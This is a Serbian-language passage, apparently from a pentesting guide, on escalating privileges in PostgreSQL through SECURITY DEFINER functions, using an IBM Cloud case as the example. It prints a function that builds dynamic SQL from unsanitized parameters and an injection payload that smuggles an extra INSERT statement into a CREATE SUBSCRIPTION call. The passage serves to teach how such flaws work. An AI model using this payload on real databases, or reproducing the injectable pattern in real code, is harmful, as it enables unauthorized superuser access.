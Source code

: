 [U ovom objašnjenju](https://www.wiz.io/blog/hells-keychain-supply-chain-attack-in-ibm-cloud-databases-for-postgresql), pentesteri su uspeli da postanu superkorisnici unutar postgres instanci koje je obezbedio IBM, jer su **pronašli ovu funkciju sa SECURITY DEFINER oznakom**:

<pre class="language-sql"><code class="lang-sql">CREATE OR REPLACE FUNCTION public.create_subscription(IN subscription_name text,IN host_ip text,IN portnum text,IN password text,IN username text,IN db_name text,IN publisher_name text)
RETURNS text
LANGUAGE 'plpgsql'
<strong>    VOLATILE SECURITY DEFINER
</strong>    PARALLEL UNSAFE
COST 100

AS $BODY$
DECLARE
persist_dblink_extension boolean;
BEGIN
persist_dblink_extension := create_dblink_extension();
PERFORM dblink_connect(format('dbname=%s', db_name));
PERFORM dblink_exec(format('CREATE SUBSCRIPTION %s CONNECTION ''host=%s port=%s password=%s user=%s dbname=%s sslmode=require'' PUBLICATION %s',
subscription_name, host_ip, portNum, password, username, db_name, publisher_name));
PERFORM dblink_disconnect();
…
</code></pre>

Kako je [**objašnjeno u dokumentaciji**](https://www.postgresql.org/docs/current/sql-createfunction.html), funkcija sa **SECURITY DEFINER** se izvršava sa privilegijama **korisnika koji je vlasnik**. Stoga, ako je funkcija **ranjiva na SQL Injection** ili vrši **privilegovane akcije sa parametrima koje kontroliše napadač**, može biti zloupotrebljena za **povećanje privilegija unutar postgres-a**.

Na liniji 4 prethodnog koda možete videti da funkcija ima oznaku **SECURITY DEFINER**.

```sql
CREATE SUBSCRIPTION test3 CONNECTION 'host=127.0.0.1 port=5432 password=a
user=ibm dbname=ibmclouddb sslmode=require' PUBLICATION test2_publication
WITH (create_slot = false); INSERT INTO public.test3(data) VALUES(current_user);
```

I zatim **izvršite komande**:

<figure><img src="../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

